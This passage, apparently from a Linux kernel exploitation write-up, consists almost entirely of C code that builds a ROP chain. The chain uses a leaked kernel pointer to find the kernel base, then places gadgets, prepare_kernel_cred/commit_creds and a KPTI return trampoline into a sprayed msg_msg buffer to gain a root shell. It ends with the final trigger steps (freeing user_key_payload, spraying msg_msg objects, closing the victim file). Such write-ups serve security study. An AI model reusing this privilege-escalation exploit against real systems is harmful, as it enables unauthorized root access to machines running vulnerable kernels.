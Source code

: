 
The ROP chain:

```C
uint64_t timerfd_tmrproc = *(uint64_t *) &leak[0x110];
uint64_t kernel_base = timerfd_tmrproc - 0x3db850;
uint64_t chunk = *(uint64_t *) &leak[0x178] - 0x190;

printf("[+] kernel base: 0x%lx\n", kernel_base);
printf("[+] heap payload: 0x%lx\n", chunk);

uint64_t rip = kernel_base + 0xbe00b5;				// push rdi ; .. ; pop rsp ; pop r13 ; pop rbp ; ret
uint64_t add_rsp = kernel_base + 0x1b1f1e;			// add rsp, 0x70 ; pop rbx ; pop r12 ; pop rbp ; ret
uint64_t pop_rdi = kernel_base + 0x5eb4b3;			// pop rdi ; .. ; ret
uint64_t prepare_kernel_cred = kernel_base + 0xf3c30;		// prepare_kernel_creds
uint64_t commit_creds = kernel_base + 0xf39c0;			// commit_creds
uint64_t kpti_trampoline = kernel_base + 0xe00fb0 + 22;		// swapgs_restore_regs_and_return_to_usermode + 22

/* Save registers */
save_state();

/* The final buffer with ROP */
memset(&message_w, 0, sizeof(message_w));
message_w.type = MTYPE_SECOND;
*(uint64_t *) &message_w.text[BEGIN_OBJ + 8] = chunk + 0x400;			// rbp
*(uint64_t *) &message_w.text[BEGIN_OBJ + 16] = add_rsp;			// add rsp, 0x70
*(uint64_t *) &message_w.text[BEGIN_OBJ + 40] = chunk;				// fops
*(uint64_t *) &message_w.text[BEGIN_OBJ + 56] = 1;				// f_count
*(uint64_t *) &message_w.text[BEGIN_OBJ + 120] = rip;				// rip
*(uint64_t *) &message_w.text[BEGIN_OBJ + 136] = 0;				// 
*(uint64_t *) &message_w.text[BEGIN_OBJ + 144] = 0;				// 
*(uint64_t *) &message_w.text[BEGIN_OBJ + 152] = chunk + 0x400;			// rbp
*(uint64_t *) &message_w.text[BEGIN_OBJ + 160] = pop_rdi;			// pop_rdi
*(uint64_t *) &message_w.text[BEGIN_OBJ + 168] = 0;				// arg
*(uint64_t *) &message_w.text[BEGIN_OBJ + 176] = prepare_kernel_cred;		// prepare_kernel_cred
*(uint64_t *) &message_w.text[BEGIN_OBJ + 184] = commit_creds;			// commit_creds
*(uint64_t *) &message_w.text[BEGIN_OBJ + 192] = kpti_trampoline;		// swapgs_restore_regs_and_return_to_usermode + 22
*(uint64_t *) &message_w.text[BEGIN_OBJ + 200] = 0;				// dummy rax
*(uint64_t *) &message_w.text[BEGIN_OBJ + 208] = 0;				// dummy rdi
*(uint64_t *) &message_w.text[BEGIN_OBJ + 216] = (uint64_t) shell;		// shell
*(uint64_t *) &message_w.text[BEGIN_OBJ + 224] = user_cs;			// user_cs
*(uint64_t *) &message_w.text[BEGIN_OBJ + 232] = user_rflags;			// user_rflags
*(uint64_t *) &message_w.text[BEGIN_OBJ + 240] = user_sp & 0xffffffffffffff00;	// user_sp
*(uint64_t *) &message_w.text[BEGIN_OBJ + 248] = user_ss;			// user_ss
```

The last scenario:

* Free the object user_key_payload to leave space to final payload
* Spray the last msg_msg objects with the payload
* Close the file (fd_victim + 2)
